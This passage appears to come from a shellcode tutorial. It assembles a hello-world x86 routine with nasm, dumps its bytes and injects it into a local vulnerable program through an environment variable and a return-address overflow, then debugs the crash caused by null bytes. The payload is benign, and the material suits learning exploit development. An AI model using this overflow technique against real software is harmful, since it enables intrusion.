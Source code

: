 ```asm

; void_exit(int status);
  mov eax, 1      ; "exit" is syscall number 1
  mov ebx, 0      ; Status = 0
  int 0x80        ; Do syscall : exit(0)
```
The first call instruction jumps to `mark_below` and push the string bellow into the stack. The write call occures bellow `mark_below`. The first instruction is popping a value from the stack (our string) and storing it in register `ecx`. Next we put into register `eax` the system call we want (in this case 4 for `write`) then, following the `write(2)`specification, we put the file descriptor in the next register, followed by the string and the length of the string. At this point we have `eax -> 4; ebx -> 1; ecx -> "Hello, world!\r\n"; edx -> 15`. Finally the system call is triggered.

The last three instructions enable the clean exit.

Exo : Create own shellcode (like mkdir or something else) TODO

### Assembly to shellcode

Now that we have our instructions in assembly we can convert it into machine code using the tool `nasm`:

```console
$ nasm helloworld1.s
$ hexdump -C helloworld1
00000000  e8 0f 00 00 00 48 65 6c  6c 6f 2c 20 77 6f 72 6c  |.....Hello, worl|
00000010  64 21 0a 0d 59 b8 04 00  00 00 bb 01 00 00 00 ba  |d!..Y...........|
00000020  0f 00 00 00 cd 80 b8 01  00 00 00 bb 00 00 00 00  |................|
00000030  cd 80                                             |..|
00000032
```
We can try our shellcode on any vulnerable program and see if it works properly !
For simplicity we will store the shellcode in an env variable and predict its address on the stack.
```console
$ export HELLO=$(cat helloworld1)
$ ./getenvaddr  HELLO ./exploit
HELLO will be at 0xbffff7e6
$ ./exploit $(perl -e 'print "\xe6\xf7\xff\xbf"x100')
Segmentation fault
$
```
Woops it seems something went wrong... We should take a look at what happened to see if the segmentation fault comes from a mistake in our shellcode or our buffer-overflow.

We can take a look at the state of the memory just before the program crashed with some core dumping. It's not necessary to know exactly how it works but if you're interested you can take a look at how we found the memory dump of our shellcode.
<details><summary>Click to see details</summary></details>

When we dump the stack memory at the HELLO env variable address we get the following bytes :
```console
0xbffff93e:	0xe8	0x0f	0x48	0x65	0x6c	0x6c	0x6f	0x2c
0xbffff946:	0x20	0x77	0x6f	0x72	0x6c	0x64	0x21	0x0a
0xbffff94e:	0x0d	0x59	0xb8	0x04	0xbb	0x01	0xba	0x0f
0xbffff956:	0xcd	0x80	0xb8	0x01	0xbb	0xcd	0x80	0x00
```
But when we dump our `helloword1` shellcode we get the following bytes :
```console
$ hexdump -C helloworld1
00000000  e8 0f 00 00 00 48 65 6c  6c 6f 2c 20 77 6f 72 6c  |.....Hello, worl|
00000010  64 21 0a 0d 59 b8 04 00  00 00 bb 01 00 00 00 ba  |d!..Y...........|
00000020  0f 00 00 00 cd 80 b8 01  00 00 00 bb 00 00 00 00  |................|
00000030  cd 80                                             |..|
00000032
```
